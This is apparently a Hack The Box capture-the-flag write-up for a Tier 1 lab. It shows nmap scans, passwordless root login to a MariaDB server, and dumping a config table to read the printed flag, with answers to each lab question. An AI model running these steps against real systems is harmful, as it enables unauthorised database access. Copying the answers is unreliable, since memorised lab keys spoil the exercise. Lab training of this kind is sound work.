 # Appointment

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. During our scan, which port do we find serving MySQL?

```sh
$ nmap 10.129.189.115 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 12:46 CET
Nmap scan report for 10.129.189.115
Host is up (0.030s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 6.24 seconds
```

> 3306

#### 2. What community-developed MySQL version is the target running?

```sh
$ nmap -sC -p3306 10.129.189.115
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 12:48 CET
Nmap scan report for 10.129.189.115
Host is up (0.030s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 69
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsLoadDataLocal, InteractiveClient, IgnoreSigpipes, ConnectWithDatabase, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, LongColumnFlag, ODBCClient, SupportsTransactions, FoundRows, Speaks41ProtocolOld, SupportsCompression, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Ne1d&,Ij[i~\4+yB~sGG
|_  Auth Plugin Name: mysql_native_password

Nmap done: 1 IP address (1 host up) scanned in 42.76 seconds
```

> MariaDB

#### 3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?

> -u

#### 4. Which username allows us to log into this MariaDB instance without providing a password?

```sh
$ mysql -h 10.129.189.115 -u root
```

> root

#### 5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

> *

#### 6. In SQL, what symbol do we need to end each query with?

> ;

#### 7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

```sh
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,03 sec)
```

> htb

#### Submit root flag

```sh
mysql> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,03 sec)
mysql> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,03 sec)
```


## Final Flag

> 7b4bec00d1a39e3dd4e021ec3d915da8

*Created by [bu19akov](https://github.com/bu19akov)*